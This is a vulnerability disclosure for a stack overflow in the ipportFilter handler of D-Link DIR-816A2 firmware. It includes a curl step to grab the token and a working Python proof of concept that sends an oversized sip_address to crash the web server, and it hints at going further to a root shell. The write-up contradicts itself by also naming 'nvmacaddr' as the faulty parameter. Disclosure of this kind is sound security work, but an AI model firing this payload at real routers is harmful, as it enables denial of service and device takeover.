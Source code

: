 # Affected Version
Dlink DIR-816A2_FWv1.10CNB05
# Vulnerability Description
Dlink DIR-816A2_FWv1.10CNB05 was discovered to contain a stack overflow via parameter sip_address in ipportFilter.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/AllPro.aspx

# Vulnerability Details
When the program processes parameter nvmacaddr, it uses the size of the parameter string as maxlen, which will cause a buffer overflow.  
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/ipportFilter/0.png)
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/ipportFilter/2.png)
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/ipportFilter/3.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
We need to get the tokenid first  
<pre>
curl http://192.168.0.1/dir_login.asp | grep tokenid
</pre>
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of goahead process.  

<pre>
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/ipportFilter'

data = {
    'tokenid' : tokenid,
    'sip_address' : 'a' * 10000, 
    'mac_address' : '00:1A:2B:3C:4D:5E',
    'sFromPort' : '1',
    'dip_address' : '1',
    'dFromPort' : '1',
    'week_select_all' : '128'
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/ipportFilter/1.png)

And you can write your own exp to get the root shell.